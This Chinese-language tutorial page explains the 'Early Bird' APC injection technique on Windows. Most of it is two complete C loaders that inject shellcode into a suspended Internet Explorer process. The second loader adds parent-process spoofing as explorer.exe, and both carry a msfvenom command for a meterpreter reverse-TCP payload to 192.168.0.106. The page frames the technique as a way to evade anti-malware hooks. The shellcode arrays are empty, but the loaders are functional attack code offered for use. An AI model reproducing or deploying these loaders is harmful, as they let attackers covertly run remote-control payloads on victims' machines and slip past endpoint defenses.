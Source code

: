 # Early Bird

## Early Bird简介

Early Bird是一种简单而强大的技术，Early Bird本质上是一种APC注入与线程劫持的变体，由于线程初始化时会调用ntdll未导出函数NtTestAlert，该函数会清空并处理APC队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，同时获得一个合法进程的环境信息。

## Early Bird流程

1. 创建一个挂起的进程\(通常是windows的合法进程\)
2. 在挂起的进程内申请一块可读可写可执行的内存空间
3. 往申请的空间内写入shellcode
4. 将APC插入到该进程的主线程
5. 恢复挂起进程的线程

![](../.gitbook/assets/image%20%2810%29.png)

## 代码实现

```text
#include <stdio.h>
#include <windows.h>
//msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
unsigned char shellcode[] = "";
int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(STARTUPINFO);

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, pi.hThread, NULL);
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);

    return 0;
}
```

## 配合FakePPID和FakeCurrentDirectory使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
    unsigned char shellcode[] = ("");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    SetCurrentDirectoryA("C:\\Program Files\\internet explorer\\");

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL);
    
    
    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2833%29.png)

![](../.gitbook/assets/image%20%287%29.png)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://blog.csdn.net/weixin\_42052102/article/details/83348780" %}





